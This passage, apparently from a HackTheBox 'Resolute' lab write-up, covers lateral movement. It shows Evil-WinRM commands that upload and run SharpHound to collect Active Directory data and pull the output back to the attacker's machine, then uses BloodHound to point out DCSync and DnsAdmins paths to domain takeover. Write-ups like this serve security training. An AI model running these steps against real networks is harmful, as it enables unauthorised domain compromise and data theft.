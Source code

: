 ## Lateral Movement

The most efficient way to move forward is to collect and analyze domain information using [BloodHound](../../../tools/tools/active-directory/bloodhound.md).

{% code overflow="wrap" %}
```bash
# upload binary to the target
*Evil-WinRM* PS C:\Users\melanie\Documents> upload SharpHound.exe

Info: Uploading /home/kali/htb/resolute/SharpHound.exe to C:\Users\melanie\Documents\SharpHound.exe

Data: 965288 bytes of 965288 bytes copied

Info: Upload successful!
# execute binary and collect data
*Evil-WinRM* PS C:\Users\melanie\Documents> .\SharpHound.exe -c all
# download the output to the attack host
*Evil-WinRM* PS C:\Users\melanie\Documents> download 20240318090426_BloodHound.zip

Info: Downloading C:\Users\melanie\Documents\20240318090426_BloodHound.zip to 20240318090426_BloodHound.zip

Info: Download successful!
```
{% endcode %}

By analyzing the data, some interesting paths pop out. If we somehow get `SYSTEM` access to this box we will be able to fully compromise the domain via a DCSync attack (Figure 1).

<figure><img src="../../../.gitbook/assets/resolute_dcsync.png" alt=""><figcaption><p>Figure 1: BloodHound let us know that the RESOLUTE host has DCSync rights over the domain.</p></figcaption></figure>

Another interesting avenue is through `ryan` that is a member of the `DnsAdmins` group which can be potentially exploited (Figure 2).
